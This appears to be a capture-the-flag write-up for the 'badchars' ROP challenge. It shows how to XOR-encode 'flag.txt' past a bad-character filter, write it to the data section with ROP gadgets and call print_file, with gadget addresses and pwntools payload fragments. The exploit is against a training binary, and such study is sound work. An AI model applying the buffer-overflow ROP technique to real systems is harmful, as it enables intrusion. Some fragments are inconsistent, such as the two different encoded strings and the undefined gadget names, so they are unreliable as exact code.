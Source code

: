 # badchars
Same as problem write4, function print_file will open a file with the fileaname as argument. Therefore, we can make the argument as string "flag.txt". However, "flag.txt" is too long to store in a 64-bit register, we need to write the string into data section and make the argument point to the address of string.

In this problem, there is a bad character list, which reject certain characters in buffer input, here is "a", "g", ".", "x". All these characters can be found in "flag.txt". So we need to find a way to bypass this bad characters checking. A simple way is use xor operation. Xor operation can be canceled by doing corresponded xor operation.

Check the security of binary:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
``` 
Since PIE is disabled, we can find data section address, therefore, we can use the same way in previous problem.

We also need some gadget to do following operations, write to data section, move data section address to rdi register, do the xor operation.
```
ROPgadget --binary badchars
...
0x0000000000400634 : mov qword ptr [r13], r12 ; ret # write string to buffer
...
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret # pop value and address to registers
...
0x00000000004006a0 : pop r14 ; pop r15 ; ret # pop xor value and address to registers
...
0x00000000004006a3 : pop rdi ; ret # pop string address to argument register
...
0x0000000000400628 : xor byte ptr [r15], r14b ; ret # do byte xor operation to ptr [byte] address
...
```
We need to find xor pairs to bypass bad characters checking. Using xor_pair in pwntools:
```
xor_pair(b'flag.txt')
>>> (b'\x01\x01\x01\x01\x01\x01\x01\x01', b'gm`f/uyu')
```
We only need to xor bad characters in "flag.txt". Then the string we write to data section will be:
```
b'flag.txt' >>> b'fl`f/tyt'
```
Now, we can build our payload:

Firstly, write the xor string 'gm`f/uyu' to data section, then do byte xor operation to each byte to string, finally, pop the string address to rdi, and call print_file.

Same as before, there is a 32 bytes buffer, and 8 bytes rbp.
```
'A'*40
```
Pop string 'fl`f/tyt' and data section address to r12 r13, and xor byte and data section byte address into r14 and r15.
```
p64(gadget1) + r15 + p64(dataSect) + p64(0x1) + p64(dataSect+2)
```
Write to data section and do xor opeation to 'a' byte.
```
p64(gadget2) + p64(gadget4)
```
Do xor operation to rest string byte 'g', '.', 'x'.
```
# 'f' ^ 1 = 'g'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+3) + p64(gadget4)
# '/' ^ 1 = '.'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+4) + p64(gadget4)
# 'y' ^ 1 = 'x'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+6) + p64(gadget4)
```
Pop data section address to rdi.
```
p64(gadget3) + p64(dataSect)
```
Jump to print_file.
```
p64(print_file_plt)
```
Execute exploit.py, and obtain the flag.
```
ROPE{a_placeholder_32byte_flag!}
```
